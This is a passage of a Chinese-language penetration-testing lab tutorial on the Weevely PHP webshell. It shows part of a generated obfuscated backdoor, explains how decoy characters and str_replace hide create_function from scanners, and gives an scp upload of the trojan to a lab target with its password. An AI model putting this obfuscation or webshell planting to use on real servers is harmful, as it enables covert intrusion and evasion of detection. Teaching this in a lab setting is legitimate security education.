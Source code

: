 ```
$T='();@ev,lal,l(@gzuncompre,lss,l(@x(@ba,lse64_deco,lde(p,lr,leg_replace(arr,l,lay(,l"/_/",",l/-/"),a,l';
$o='++)$p.,l,l=$q[$m[2][$z,l]],l;if(strpos(,l$p,$h),l=,l==0){,l$s[$i]="",l;$p=$ss,l($p,3,l);,l}if(array_key';
$C=str_replace('tp','','tpctpreattpetp_ftpunctption');
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
$I=$C('',$x);$I();
?>

```
在源码中，其`变量名`是随机生成的，所以直接查看代码的变量名，很难查找出有什么规律。感兴趣的同学，可以使用不同名字和密码，多生成几组 PHP 木马进行对比验证。在这堆乱码中，有两处非常关键的代码在倒数第二和第三行，在解释这两行代码之前，我们先看一下变量 `$r`：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1482975799229.png-wm)

```
# 处理过的字符串，夹杂着欺骗字符
$r='b,lase6,l4_,lenc,lode(x(g,lzcompress($o,l),$k));
```

这里的意思是先将经 Weevely 随机生成，包含着`欺骗字符`的字符串赋值给 `$r`，接着通过函数 `str_replace` 洗掉其中的欺骗符号`,l`（这里使用`洗掉`比较易于理解，欺骗符号也是随机生成），洗掉欺骗符号的具体代码在倒数第二行：

```
# 洗掉欺骗字符，得到真正要执行的函数名称
$x=str_replace(',l','',$K.$y.$S.$A.$Q.$j.$L.$o.$m.$T.$z.$r);
```
对于插在代码中的欺骗符号之一 `,l`，可以看出有这么多（黄色标记的部分），在箭头一的位置，去掉欺骗字符后，就是一个正常的 `if` 语句：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/ff207c4ac994ae597a753f238bd6b2de/1481532833765.png-wm)


其中对于变量 `$r`，洗掉欺骗符号后（箭头二处），得到关键函数 `base64_encode`，作用是使用 base64 对数据进行编码。在变量 `$x` 之上，也就是倒数第三行，变量 `$C` 的字符串经过函数 `str_replace` 清洗的前后对比为：

```
# 清洗前的字符串
$C=str_replace('tp','','tpctpreattpetp_ftpunctption');

#清洗后的字符串，即 PHP 的 create_function 函数
$C=create_function;
```
在 PHP 中，函数 `create_function` 的功能是创建一个匿名函数传递的参数，并返回一个唯一的名称。所以说，Weevely 是一个隐形 PHP 网页外壳。由阅读生成的 PHP 木马源码代码可以知道。

其原理为 Weevely 随机生成欺骗字符，将欺骗字符随机插入到函数中，最后再用 `str_replace` 函数清洗掉欺骗字符，得到真正的意图函数和字符串。这其中而不直接使用 `str_replace`，是为了避免过多出现 `str_replace` 引起木马查杀程序的注意。精简总结就是，使用欺骗字符混淆程序。


### 4.3 上传 PHP 木马值目标靶机

Weevely 使用欺骗字符，绕过查杀之后，再将字符还原，隐藏真正后门连接程序。弄清楚了 Weevely 工作流程之后，接下来我们将木马上传到目标靶机，进而感染目标靶机，让攻击者在后续中的操作中，取得目标靶机的控制权。在 Kali 终端中输入命令，将 PHP 木马文件 `hello.php` 传至目标靶机：

```
# 使用 scp 命令，进行文件传输，也可以使用 ftp 进行，只要将文件上传到目标靶机即可
scp hello.php shiyanlou@192.168.122.1:/tmp
```
**注意：密码是 `shiyanlou`**
